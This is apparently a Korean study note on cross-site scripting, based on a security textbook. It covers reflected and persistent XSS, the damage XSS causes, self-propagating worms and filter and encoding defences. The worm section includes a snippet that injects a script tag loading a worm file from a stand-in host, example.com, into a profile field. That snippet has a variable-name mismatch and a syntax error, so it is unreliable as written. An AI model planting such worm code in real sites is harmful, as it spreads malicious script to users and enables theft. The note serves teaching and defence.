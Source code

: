 ```yaml
---
title: Cross-Site Scripting Attack
tags: security XSS
key: page-cross_site_scripting_attack
cover: /assets/cover/cyber_security.png
mathjax: true
mathjax_autoNumber: true
---
```


## The Cross-Site Scripting Attack
* Attacker가 victim's browser에 code를 inject시키면 공격을 할 수 있는데 victim이 attacker의 page에 접속할때마다 그 공격이 이루어질 수 있는 것이다. 하지만 sandbox protection 때문에 그 공격이 이루어지지 않는다.
* 하지만 target page에 공격 코드를 inject시키면 공격을 성공시킬 수 있는데 이것을 cross-site scripting(xss) attack이라고 부르는 것이다.
* 기본적으로 어떤 웹사이트에서 온 코드는 그 웹사이트에 관해서는 다 신뢰하고 실행하게 된다. 따라서 그 웹사이트와 연관된 쿠키를 가지고 내용을 수정하거나 리퀘스트를 날리거나 뭐든지 할 수 있는것이다. 특히 active session을 가지고 있으면 어떠한 것도 그 웹사이트 안에서는 다 허용한다.
* 따라서 공격자가 target website에 코드를 심어서 공격을 하는 것이다.
<br><br>

## Non-persistent (Reflected) XSS Attack
* 대다수의 웹사이트들이 reflective behavior을 가지고 있다. 간단히 얘기하자면 user가 웹 사이트 input에 어떤 값을 넣어서 request를 보내면 서버는 user의 input값을 response에 포함시켜서 다시 보내는(reflect) 행위들을 의미한다.
* 이때 서버가 input을 제대로 sanitize하지 않는다면 input에 script 코드를 넣어서 보내면 다시 돌아올때 그것이 실행되게 되는 것이다.
<br><br>

## Persistent XSS Attack
* Target website에 data로써 코드를 저장시켜서 공격하는 기법이다.
* 예를들어 공격자가 자신의 프로필 수정란에 script code를 기입하고 그것을 db에 저장시킨다음 다른 사람들이 그 프로필을 보게 되면 injecte된 script code를 보게 되면서 그것을 실행하게 된다. 이것은 서버측에서 data로 저장할때 HTML markup을 제대로 sanitized하지 않았기 때문에 생기는 허점이다.
* 브라우저는 이러한 코드들을 서버에서 만든건지 다른 사람이 만든건지 구별할 수 없기 때문에 그 코드를 user의 privilege로 실행시켜버린다.
<br><br>

## What damage can XSS cause?
* Web defacing: JS code는 DOM APIs를 쓸 수 있기 때문에 hosting page의 DOM을 생산 혹은 제거, 변경 같은 것을 가능하게 하여 fake page를 만들수도 있고 형태 자체를 바꿔버릴 수 있다.
* Spoofing requests: JS code는 HTTP request도 가능하기 때문에 우리가 지금까지 얘기한것들의 예들로 fake user로 접근하여 서버에 fake user신분으로 의도치 않은 일들을 할 수 있다.
* Stealing information: Victim's private data(session cookie, 개인 정보 등)를 공격자에게로 쉽게 보낼 수 있다.
<br><br>

## XSS Attacks in Action
* 공격에 앞서 우선 target website가 어떤식으로 작동하는지를 우리가 코드를 심고자 하는 행위를 실행했을 때 HTTP header를 분석하면서 url 같은 것을 확인하고 이용한다.
* 공격할때는 스펠링 하나하나 잘 확인해야하고 target site마다 가지는 특성에 따라 공격 코드가 다 달라지기 때문에 정형화한 방식을 알려주기는 힘들다.
* 분석한 액션에 대한 url 분석만 잘 마치면 그 url의 패턴들에 따라 내용만 잘 넣어서 Ajax로 open(), setRequestHeader(), send()와 같은 함수들을 잘만 사용하면 공격에 성공할 수 있을 것이다.
<br><br>

## Achieving Self-Propagation
* 진짜 worm처럼 자가번식하면서 malware code를 퍼트리려면 DOM APIs를 통한 방식과 src attribute를 이용하여 link로 퍼트리는 방식이 있다.
### DOM Approach
* 웹 페이지가 만들어질때에는 브라우저측에서 Document Object Model(DOM)을 생성한다.
* DOM은 각 페이지의 내용들을 DOM nodes형태로 tree를 구성한다.
* 이 방식으로 공격할때에는 우리는 JS code를 DOM API를 통해 node 이름(id)을 부여하고 document.getElementByID()를 통해 그 노드를 불러오기만 하면 공격할 수 있다. 별거 없고 그냥 API 쓰면 DOM 접근 방식인거다. 코드를 다시 쓰는게 아니라 elegance하게 DOM API로 불러서 그 전체 코드를 content에 실어서 보내면 된다.
    ```javascript
    <script id="worm">

    // Use DOM API to get a copy of the content in a DOM node.
    var strCode = document.getElementById("worm").innerHTML;

    // Displays the tag content
    alert(strCode);

    </script>
    ```
### Link Approach
* 이거는 js파일을 그대로 불러서 src에다가 넣는것이다.
    ```javascript
    var warmCode = encodeURIComponent(
        "<script type=\"text/javascript\" "
        + "src=\"http://example.com/xss_worm.js\">";
        + "</" + "script>");

    // Set the content for the description field(이거는 특정 웹사이트에서 적용하는 방식을 이용한 것일뿐.)
    var desc="&description=SAMY is MY HERO" + wormCode;

    //(the rest of the code is the same as that in the previous approach)
    ..
    ```
* 위의 방식으로 js 파일(worm)을 넣기만 하면 된다.
* 위에서 </ script> 부분을 따로 스트링 처리 하는 이유는 만약 한 곳에 처리해버리면 firefox같은 브라우저는 하나로 인식해서 제대로 코드 전달이 안되기 때문이다. 브라우저 파싱 방식에 따라 달라질 것이다.
<br><br>

## Preventing XSS attacks
* XSS가 생기는 이유는 data와 code를 분리하지 않아서이다.
* 하지만 HTML markup을 지원하는 입장에서 분리하는게 결코 쉬운일은 아니다.
* user input으로 부터 코드를 없애거나 가능하면 그것을 ineffective하게 바꾸는 2가지의 방식이 있다. 보통 아래 2가지 방법을 섞어서 XSS를 예방한다.
### Filter Approach
* user input으로 부터 코드를 지운다는 것인데 이게 쉽지 않다.
* script 태그 외에 여러가지 방법으로 javascript를 작동시킬 수 있는 방법들이 존재한다.
* 이건 만드는게 쉽지 않기 때문에 jsoup와 같은 오픈소스 코드를 사용해도 좋다.
### Encoding Approach
* Code들을 브라우저가 볼 수 있는 방식(\&\lt; 같이 < 대신에 보여지는 방식)으로 바꾸는 것이다.
* 브라우저가 representations하는 방식이 된다는 것은 코드는 실행되지 않는다는 것을 의미한다.

## Refrence

* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)